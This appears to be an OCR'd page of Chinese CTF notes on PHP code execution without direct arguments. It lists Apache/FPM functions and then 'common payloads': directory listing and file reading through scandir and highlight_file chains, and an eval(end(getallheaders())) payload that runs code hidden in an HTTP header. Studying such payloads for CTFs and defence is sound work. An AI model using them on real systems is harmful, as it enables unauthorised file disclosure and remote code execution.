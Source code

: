 Apache 环境中可用的函数如下：

```php
apache_child_terminate — Terminate apache process after this request
apache_get_modules — Get a list of loaded Apache modules
apache_get_version — Fetch Apache version
apache_getenv — Get an Apache subprocess_env variable
apache_lookup_uri — Perform a partial request for the specified URI and return all info about it
apache_note — Get and set apache request notes
apache_request_headers — Fetch all HTTP request headers
apache_response_headers — Fetch all HTTP response headers
apache_setenv — Set an Apache subprocess_env variable
getallheaders — Fetch all HTTP request headers
virtual — Perform an Apache sub-request
```

## FPM 函数
```php
fastcgi_finish_request — Flushes all response data to the client
fpm_get_status — Returns the current FPM pool status
```

# 常见 payload
下面是一些常见的 payload。

## 获取环境信息

### phpinfo()
phpinfo()

## 目录枚举
### scandir
```php
当前目录：highlight_file(array_rand(array_flip(scandir(getcwd()))));
上级目录文件：highlight_file(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd())))))));
```

- array_flip()和array_rand()配合使用可随机返回当前目录下的文件名
- dirname(chdir(dirname()))配合切换文件路径



## 构造外部输入 RCE
题目限制了无法直接传入参数，但我们可以通过别的地方进行输入。

### getallheaders
getallheaders 函数可以获取所有的请求头，将 payload 写在最后一个请求头中，然后时用下面的 payload 即可任意代码执行。
```php
eval(end(getallheaders()));
```
